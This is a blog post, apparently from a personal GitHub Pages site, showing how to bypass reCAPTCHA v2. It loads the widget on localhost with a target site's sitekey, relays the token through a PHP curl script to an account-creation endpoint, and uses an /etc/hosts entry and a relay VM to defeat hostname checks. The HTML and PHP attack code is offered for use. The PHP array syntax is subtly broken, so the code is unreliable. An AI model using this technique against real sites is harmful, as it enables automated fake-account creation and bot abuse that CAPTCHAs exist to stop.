 ```yaml
---
layout: post
title: Bypassing RecaptchaV2
---
```


A lot of times I hear people say that they use recaptchaV2 as a way to mitigate bot traffic. We have tried the same and the results have not been pretty, just as I anticipated. RecaptchaV2 is meant to stop scripts from performing actions against an application but there is no way that a macro-recording application that is interacting with a real browser can be stopped. 

What does this mean? Well, if you have an application that replays clicking on recorded coordinates from a real browser, there is no way recaptchaV2 can solve this. In fact, let me just show you.

# Bypassing recaptchaV2
A quick bypass/automating recaptchaV2 solution is as easy as follows:

* Apache web server
* PHP script receiving the g-captcha-response
* Public sitekey for target URL

You can set up an Apache web server running on http://localhost that loads a form that loads the recaptchaV2 widget and submits the response to a PHP script. The PHP script can receive the g-recaptcha-response parameter and send that via curl to the target URL with the rest of parameters that are needed to complete the action. 

> Google by default allows you to load recaptchaV2 widgets from localhost as a 'feature' for testing. There is no way to disable this.

## Example
Let's say that you want to bypass the recaptchaV2 for http://www.targetsite.com/create_account.action endpoint. This action takes a few parameters such as:
* username
* password
* gender
* city
* zip code
* address

What you can have is an Apache server serving an html file which loads the recaptchaV2 widget with:

```html
<html>
  <head>
    <title>reCAPTCHA demo: Simple page</title>
     <script src="https://www.google.com/recaptcha/api.js" async defer></script>
  </head>
  <body>
    <form action="script.php" method="POST">
      <div class="g-recaptcha" data-sitekey="TARGET_SITE_KEY"></div>
      <br/>
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
```

Then you can have a script.php file set to receive the response as:
{{{$response = $_POST['g-recaptcha-response']}}}

What it can also do is pass the rest of the parameters to the target URL as:

```php
	$url = "https://www.targetsite.com/create_account.action";
	$response = $_POST['g-recaptcha-response'];
	$fields = array(
		'g-recaptcha-response' : $response,
		'username' : 'blah',
		'password' : 'password123', #of course!
		'gender' : 'm',
		'city' : 'Chicago',
		'state' : 'IL',
		'address' : '123 Elm St'
	);
	$fields_string = "";
	foreach($fields as $key=>$value) { $fields_string .= $key.'='.$value.'&'; }
	rtrim($fields_string, '&');

	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $url);
	curl_setopt($ch, CURLOPT_POST, count($fields));
	curl_setopt($ch, CURLOPT_POSTFIELDS, $fields_string);
	$result = curl_exec($ch);
	curl_close($ch);
```

Bingo! That will submit a valid response to the target site with the rest of the parameters. When the target site sends the response to Google for verification, it'll receive a success of true and a hostname of 'localhost' because that's where the challenge was generated. If the site decides to perform hostname validation, then this attack will not work.

But wait... There's more!

If the site decides to perform hostname validation, this is what you can do:
* Create an /etc/hosts entry for the hostname of the target URL (www.targetsite.com)
* Have the PHP file send the response to another node (another VM) that then sends the parameters via curl.
* Hostname validation bypassed.

# References
[Google RecaptchaV2 Documentation](https://developers.google.com/recaptcha/intro)
	

